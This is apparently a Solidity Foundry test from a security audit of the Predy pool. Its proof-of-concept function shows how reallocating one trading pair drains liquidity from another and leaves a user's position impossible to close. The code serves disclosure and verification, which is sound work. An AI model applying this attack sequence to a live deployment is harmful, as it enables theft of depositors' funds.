 ```solidity
        predyPool.supply(2, true, 1e8);
        predyPool.supply(2, false, 1e8);

        tradeMarket = new TestTradeMarket(predyPool);

        filler = vm.addr(12);

        currency0.transfer(address(tradeMarket), 1e8);
        currency1.transfer(address(tradeMarket), 1e8);

        currency0.approve(address(tradeMarket), 1e8);
        currency1.approve(address(tradeMarket), 1e8);

        currency0.mint(filler, 1e10);
        currency1.mint(filler, 1e10);
        vm.startPrank(filler);
        currency0.approve(address(tradeMarket), 1e10);
        currency1.approve(address(tradeMarket), 1e10);
        vm.stopPrank();
    }

    function testPoCReallocateStealFromOtherPair() public {
        // user opens gamma position on pair with id = 1
        {
            IPredyPool.TradeParams memory tradeParams =
                IPredyPool.TradeParams(1, 0, -90000, 100000, abi.encode(_getTradeAfterParams(2 * 1e6)));

            tradeMarket.trade(tradeParams, _getSettlementData(Constants.Q96));
        }

        _movePrice(true, 5 * 1e16);

        // reallocation on pair id = 2 steals from pair id = 1
        assertTrue(tradeMarket.reallocate(2, _getSettlementData(Constants.Q96 * 15000 / 10000)));

        _movePrice(true, 5 * 1e16);

        // reallocation on pair id = 1 can be done but there is 0 liquidity
        assertTrue(tradeMarket.reallocate(1, _getSettlementData(Constants.Q96 * 15000 / 10000)));

        // user can't close his position on pair with id = 1, internal accounting is broken
        {
            IPredyPool.TradeParams memory tradeParams =
                IPredyPool.TradeParams(1, 1, 90000, -100000, abi.encode(_getTradeAfterParams(2 * 1e6)));

            tradeMarket.trade(tradeParams, _getSettlementData(Constants.Q96));
        }
    }
}
```
